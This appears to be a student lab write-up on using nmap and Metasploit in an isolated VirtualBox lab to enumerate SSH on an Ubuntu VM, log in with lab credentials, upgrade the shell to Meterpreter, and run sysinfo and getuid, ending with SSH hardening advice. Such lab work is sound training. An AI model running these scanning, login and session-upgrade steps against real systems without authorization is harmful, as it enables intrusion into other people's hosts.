




# Lab 05: Metasploit Framework SSH Assessment & Meterpreter Upgrade

## Objective
Conduct an authorized, simulated penetration test inside an isolated **Oracle VirtualBox** lab—using **Kali Linux** and the **Metasploit Framework** to enumerate SSH services on a local **Ubuntu** virtual machine, establish an initial command shell, upgrade the session to **Meterpreter**, and perform post-exploitation system verification.

---

## Lab Architecture
* **Hypervisor:** Oracle VirtualBox (Isolated Local Lab Network)
* **Attacking Host:** Kali Linux (`msfconsole`, `nmap`)
* **Target Host:** Local Ubuntu Virtual Machine (`OpenSSH` on TCP port `22`)
* **Framework & Modules:** Metasploit Framework (`auxiliary/scanner/ssh/ssh_version`, `auxiliary/scanner/ssh/ssh_login`, `post/multi/manage/shell_to_meterpreter`)

---

## Implementation & Verification

### 1. Service Discovery & SSH Enumeration
Scanned the target Ubuntu VM from Kali Linux to confirm TCP port `22` was open and enumerated the OpenSSH banner and version using `nmap` and Metasploit's SSH scanner module.

```bash
nmap -sV -p 22 <target-ip>
```

```text
use auxiliary/scanner/ssh/ssh_version
set RHOSTS <target-ip>
run
```



### 2. Credential Validation & Initial Shell Access
Configured `auxiliary/scanner/ssh/ssh_login` inside `msfconsole` to test SSH authentication against the lab Ubuntu VM, capturing an interactive command shell session upon successful login.

```text
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target-ip>
set USERNAME <lab-user>
set PASSWORD <lab-pass>
run
sessions -l
```



### 3. Upgrading Standard Shell to Meterpreter
Used Metasploit's `shell_to_meterpreter` post-exploitation module to upgrade the raw SSH command shell into a full **Meterpreter** session for structured host inspection and session management.

```text
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
sessions -i 2
```



### 4. Post-Exploitation Verification
Executed read-only verification commands inside Meterpreter (`sysinfo`, `getuid`, `ipconfig`) to confirm host architecture, OS kernel version, and privilege context.

```text
meterpreter > sysinfo
meterpreter > getuid
```



---

## Key Takeaways & Defensive Hardening
* **Disable Password Authentication:** Enforcing SSH key-based authentication (`PasswordAuthentication no` in `/etc/ssh/sshd_config`) eliminates credential-stuffing and brute-force exposure via `ssh_login`.
* **Rate Limiting & Detection:** Deploying `fail2ban` or forwarding `/var/log/auth.log` into a SIEM (such as **Splunk Enterprise**) enables rapid detection of repeated SSH authentication failures and abnormal session spawns.
* **Least Privilege:** Restricting root login (`PermitRootLogin no`) and isolating management interfaces to dedicated administrative VLANs limits post-exploitation impact.
